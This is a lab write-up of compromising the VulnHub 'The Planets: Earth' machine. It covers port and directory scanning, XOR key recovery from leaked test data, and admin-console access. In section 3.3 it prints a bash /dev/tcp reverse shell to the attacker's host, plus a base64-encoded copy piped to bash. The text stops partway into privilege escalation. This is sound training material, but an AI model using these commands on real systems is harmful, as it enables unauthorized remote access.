<div align="center">

# 🌍 VulnHub: The Planets — Earth
### *From Network Reconnaissance to Full Root Compromise*

[](https://www.vulnhub.com/entry/the-planets-earth,755/)
[](https://www.vulnhub.com/)
[](https://getfedora.org/)
[-critical?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.vulnhub.com/)
[](https://github.com/)

<p align="center">
  <b>A detailed, professional security assessment and penetration testing write-up documenting the full compromise chain against the VulnHub "The Planets: Earth" machine.</b>
</p>

---

</div>

> [!NOTE]
> **Author & Lab Disclaimer:** This security assessment was conducted strictly in a local, isolated, and authorized laboratory environment. All methodologies, tools, and remediation advice presented herein are for educational, defense-in-depth, and security research purposes only.

---

## 📑 Table of Contents

- [Executive Summary](#-executive-summary)
- [Target & Assessment Scope](#-target--assessment-scope)
- [Attack Path & Kill Chain](#-attack-path--kill-chain)
- [Phase 1: Reconnaissance & Service Discovery](#-phase-1-reconnaissance--service-discovery)
  - [1.1 Host Discovery & Port Scanning](#11-host-discovery--port-scanning)
  - [1.2 DNS & Virtual Host Resolution](#12-dns--virtual-host-resolution)
- [Phase 2: Web Reconnaissance & Cryptanalysis](#-phase-2-web-reconnaissance--cryptanalysis)
  - [2.1 Earth Secure Messaging System](#21-earth-secure-messaging-system)
  - [2.2 Staging Site Enumeration & Information Disclosure](#22-staging-site-enumeration--information-disclosure)
  - [2.3 Known-Plaintext XOR Cryptanalysis](#23-known-plaintext-xor-cryptanalysis)
- [Phase 3: Administrative Access & Remote Command Execution](#-phase-3-administrative-access--remote-command-execution)
  - [3.1 Admin Portal Authentication](#31-admin-portal-authentication)
  - [3.2 Web Shell Command Execution](#32-web-shell-command-execution)
  - [3.3 Reverse Shell Foothold](#33-reverse-shell-foothold)
- [Phase 4: Local Enumeration & Privilege Escalation](#-phase-4-local-enumeration--privilege-escalation)
  - [4.1 Host & Process Telemetry](#41-host--process-telemetry)
  - [4.2 System Configuration & Scheduled Task Audit](#42-system-configuration--scheduled-task-audit)
  - [4.3 SUID Binary Discovery (`reset_root`)](#43-suid-binary-discovery-reset_root)
  - [4.4 Static Binary Analysis & Reverse Engineering](#44-static-binary-analysis--reverse-engineering)
  - [4.5 Triggering Root Password Reset](#45-triggering-root-password-reset)
  - [4.6 Root Authentication & Proof Capture](#46-root-authentication--proof-capture)
- [Findings & Vulnerability Matrix](#-findings--vulnerability-matrix)
- [Defensive Recommendations & Remediation](#-defensive-recommendations--remediation)
- [Key Takeaways & Lessons Learned](#-key-takeaways--lessons-learned)

---

## 📊 Executive Summary

During the penetration test of the **VulnHub The Planets: Earth** virtual machine, a comprehensive security evaluation was performed from an external Kali Linux attacker station against the target host running Fedora 34.

The assessment executed a full compromise lifecycle across four distinct stages:
1. **Perimeter Reconnaissance & Virtual Hosting:** Network mapping uncovered open TCP services on ports 22 (SSH), 80 (HTTP), and 443 (HTTPS). TLS certificate analysis disclosed internal virtual hosts `earth.local` and `terratest.earth.local`, which were routed locally via `/etc/hosts`.
2. **Cryptanalysis & Credential Recovery:** Directory fuzzing against `terratest.earth.local` uncovered `robots.txt`, exposing sensitive developer notes in `testingnotes.txt` alongside test plaintext in `testdata.txt`. The developer notes documented an XOR-based encryption implementation and identified the administrative account `terra`. Implementing a known-plaintext XOR cryptanalysis script (`analyze.py`) against the intercepted messages on `earth.local` recovered the 28-byte repeating encryption key: `earthclimatechangebad4humans`.
3. **Web Exploitation & Shell Stabilization:** Authenticating into `/admin/login` using `terra`:`earthclimatechangebad4humans` unlocked the **Admin Command Tool**, an unvalidated web command console executing as `apache` (`uid=48`). A base64-encoded reverse shell was dispatched to bypass character constraints, yielding an interactive terminal on port 5555.
4. **Binary Reverse Engineering & Superuser Takeover:** Local host enumeration revealed a custom SUID root binary, `/usr/bin/reset_root`. Due to the absence of dynamic debugging utilities (`gdb`, `strace`, `ltrace`), static reverse engineering was conducted using `objdump`, `nm`, and `strings`. The binary's `magic_cipher` function was reverse-engineered, demonstrating that it decrypts three trigger filenames using the static key `palebluedot`. Creating the three required trigger files in world-writable storage (`/dev/shm/kHgTFI5G`, `/dev/shm/Zw7bV9U5`, and `/tmp/kcM0Wewe`) satisfied all pre-conditions. Executing `/usr/bin/reset_root` reset the system root password to `Earth`, granting full administrative control (`UID 0`) and yielding the final flag: `root_flag_b0da9554d29db2117b02aa8b66ec492e`.

---

## 🎯 Target & Assessment Scope

| Parameter | Specification |
| :--- | :--- |
| **Target Machine** | VulnHub The Planets: Earth |
| **Target IP Address** | `192.168.89.129` |
| **Attacker Machine** | Kali Linux (`192.168.89.130`) |
| **Assessment Type** | Black Box / Controlled Lab Penetration Test |
| **Target OS / Kernel** | Fedora 34 (Server Edition) / Linux `5.14.9-200.fc34.x86_64` |
| **Initial Access Vector** | XOR Key Recovery & Authenticated Command Injection |
| **Privilege Escalation** | Custom SUID Binary Reverse Engineering (`/usr/bin/reset_root`) |
| **Highest Privilege** | `root` (UID: `0`, GID: `0`) |
| **Final Proof / Flag** | `root_flag_b0da9554d29db2117b02aa8b66ec492e` |

---

## 🗺️ Attack Path & Kill Chain



---

## 🔍 Phase 1: Reconnaissance & Service Discovery

### 1.1 Host Discovery & Port Scanning

To map active devices in the virtual assessment subnet (`192.168.89.0/24`), an initial host discovery ping sweep was executed from Kali Linux, followed by service banner enumeration and standard NSE script scanning:

```bash
# Network host discovery
nmap -sn 192.168.89.0/24

# Service detection and NSE scripts
nmap -sV -sC -oN scan.txt 192.168.89.129 -v
```

#### Port Scan Findings

| Port | Protocol | State | Service | Software / Banner | Risk Level |
| :---: | :---: | :---: | :---: | :--- | :---: |
| **22** | TCP | OPEN | **SSH** | `OpenSSH 8.6 (protocol 2.0)` | 🟡 **LOW** |
| **80** | TCP | OPEN | **HTTP** | `Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)` | 🟠 **HIGH** |
| **443** | TCP | OPEN | **HTTPS** | `Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)` | 🟠 **HIGH** |

### 1.2 DNS & Virtual Host Resolution

The TLS/SSL certificate served on port 443 yielded decisive naming configuration details:
- `Subject: commonName=earth.local/stateOrProvinceName=Space`
- Subject Alternative Names referencing `earth.local` and `terratest.earth.local`

To enable proper virtual host routing and communication with both web applications, the hostnames were registered in `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Appended:
# 192.168.89.129 earth.local terratest.earth.local
```

---

## 🔬 Phase 2: Web Reconnaissance & Cryptanalysis

### 2.1 Earth Secure Messaging System

Navigating to `http://earth.local` presented the **Earth Secure Messaging Service** portal. The application includes an interface to encrypt and send messages along with three historical hex-encoded transmission logs.

<p align="center">
  
  <br />
  <em>Figure 1: Earth Secure Messaging Service landing page displaying encrypted message streams.</em>
</p>

A directory brute-force scan against `http://earth.local/` using **Gobuster** revealed an administrative endpoint:

```bash
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt
```

The scan returned `/admin` with HTTP `301 Moved Permanently`:

<p align="center">
  
  <br />
  <em>Figure 2: Directory enumeration locating the /admin/ endpoint.</em>
</p>

Navigating to `http://earth.local/admin/` redirected to the unauthenticated authentication portal:

<p align="center">
  
  <br />
  <em>Figure 3: Admin Command Tool authentication interface at /admin/login.</em>
</p>

---

### 2.2 Staging Site Enumeration & Information Disclosure

Enumerating the virtual host `https://terratest.earth.local` presented a test page:

<p align="center">
  
  <br />
  <em>Figure 4: terratest.earth.local test site landing page.</em>
</p>

Directory enumeration with Gobuster (using `-k` to ignore TLS certificate validation) located `robots.txt`:

```bash
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```

Inspecting `https://terratest.earth.local/robots.txt` exposed a non-standard disallow rule targeting `/testingnotes.*`:

<p align="center">
  
  <br />
  <em>Figure 5: robots.txt disclosing sensitive developer testing notes.</em>
</p>

Accessing `https://terratest.earth.local/testingnotes.txt` disclosed critical architectural notes left by developers:

```text
Testing secure messaging system notes:
*Using XOR encryption as the algorithm, should be safe as used in RSA.
*Earth has confirmed they have received our sent messages.
*testdata.txt was used to test encryption.
*terra used as username for admin portal.
Todo:
*How do we send our monthly keys to Earth securely? Or should we change keys weekly?
*Need to test different key lengths to protect against bruteforce. How long should the key be?
*Need to improve the interface of the messaging interface and the admin panel, it's currently very basic.
```

<p align="center">
  
  <br />
  <em>Figure 6: Disclosed notes identifying XOR algorithm, testdata.txt, and username 'terra'.</em>
</p>

Requesting `https://terratest.earth.local/testdata.txt` revealed the reference plaintext used for transmission testing:

```text
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.
```

<p align="center">
  
  <br />
  <em>Figure 7: Known plaintext extracted from testdata.txt.</em>
</p>

---

### 2.3 Known-Plaintext XOR Cryptanalysis

Because XOR encryption exhibits the fundamental mathematical property:
$$\text{Ciphertext} = \text{Plaintext} \oplus \text{Key} \implies \text{Key} = \text{Plaintext} \oplus \text{Ciphertext}$$

Having both the known plaintext from `testdata.txt` and the hex-encoded ciphertexts on `earth.local` made key derivation straightforward.

A Python cryptanalysis script (`analyze.py`) was constructed to perform byte-wise XOR recovery between `plaintext.txt` and `cipher.txt`:

```python
#!/usr/bin/env python3
from pathlib import Path

PLAINTEXT_FILE = "plaintext.txt"
CIPHERTEXT_FILE = "cipher.txt"

def load_hex_file(filename):
    text = "".join(Path(filename).read_text().split())
    return bytes.fromhex(text)

def xor_bytes(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

def find_repeating_key(data):
    for key_len in range(1, len(data) + 1):
        key = data[:key_len]
        if all(data[i] == key[i % key_len] for i in range(len(data))):
            return key
    return None

plaintext = Path(PLAINTEXT_FILE).read_bytes()
ciphertext = load_hex_file(CIPHERTEXT_FILE)

keystream = xor_bytes(plaintext, ciphertext)
recovered_key = find_repeating_key(keystream)

print(f"[+] Recovered Key ASCII: {recovered_key.decode('ascii')}")
```

Executing `analyze.py` against ciphertext #3 yielded the repeating key:

```text
======================================================================
KEY RECOVERED
======================================================================
Key length : 28 bytes
Key hex    : 6561727468636c696d6174656368616e67656261643468756d616e73
Key ASCII  : earthclimatechangebad4humans
[+] Verifying recovered key...
[+] VERIFIED
[+] Recovered key reproduces the ciphertext.
```

---

## ⚡ Phase 3: Administrative Access & Remote Command Execution

### 3.1 Admin Portal Authentication

Using the discovered portal user `terra` and the recovered XOR key `earthclimatechangebad4humans`, authentication was conducted at `http://earth.local/admin/login`.

Authentication succeeded, redirecting into the **Admin Command Tool**:

<p align="center">
  
  <br />
  <em>Figure 8: Authenticated Admin Command Tool session for user 'terra'.</em>
</p>

### 3.2 Web Shell Command Execution

The web portal allowed unrestricted CLI command input. Basic reconnaissance commands were run to determine operating context:
- `id` returned `uid=48(apache) gid=48(apache) groups=48(apache)`
- `whoami` returned `apache`
- `pwd` returned `/`

<p align="center">
  
  <br />
  <em>Figure 9: Verification of execution privileges as user 'apache' (UID 48).</em>
</p>

<p align="center">
  
  <br />
  <em>Figure 10: Confirmation of current username context via whoami.</em>
</p>

<p align="center">
  
  <br />
  <em>Figure 11: Current working directory confirmation.</em>
</p>

---

### 3.3 Reverse Shell Foothold

To overcome web-form execution limitations and obtain an interactive TTY, a base64-encoded bash reverse shell was staged:

```bash
# Encoded payload on Kali:
echo "bash -i >& /dev/tcp/192.168.89.130/5555 0>&1" | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg5LjEzMC81NTU1IDA+JjEK

# Executed in the Admin Command Tool:
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljg5LjEzMC81NTU1IDA+JjEK | base64 -d | bash
```

<p align="center">
  
  <br />
  <em>Figure 12: Base64 encoding the reverse TCP shell string.</em>
</p>

A Netcat listener on port 5555 captured the incoming shell session:

```bash
nc -nlvp 5555
```

<p align="center">
  
  <br />
  <em>Figure 13: Interactive reverse shell established with the target as user apache.</em>
</p>

---

## 👑 Phase 4: Local Enumeration & Privilege Escalation

### 4.1 Host & Process Telemetry

With an active shell established as `apache`, host enumeration was conducted to evaluate internal services, process trees, and open listening sockets:

```bash
# Network sockets
ss -lntup
```

<p align="center">
  
  <br />
  <em>Figure 14: Network sockets displaying listening services on localhost and external interfaces.</em>
</p>

```bash
# Process list
ps aux | grep -v grep
```

<p align="center">
  
  <br />
  <em>Figure 15: Running system processes highlighting firewalld and Apache worker pools.</em>
</p>

Investigation of the port list initially noted a value of `4096`. Verification confirmed this was the TCP **Send-Q backlog** parameter rather than an active listening port:

<p align="center">
  
  <br />
  <em>Figure 16: Local port binding inspection clarifying Send-Q values.</em>
</p>

Inspecting web directories and Apache virtual host files highlighted configurations in `/etc/httpd/conf.d/`:

<p align="center">
  
  <br />
  <em>Figure 17: Apache vhost configuration files and SSL private key references.</em>
</p>

---

### 4.2 System Configuration & Scheduled Task Audit

Searches were conducted across the filesystem to identify potential password-reset scripts or automated maintenance jobs. Searching for references to `chpasswd` surfaced SELinux context rules:

<p align="center">
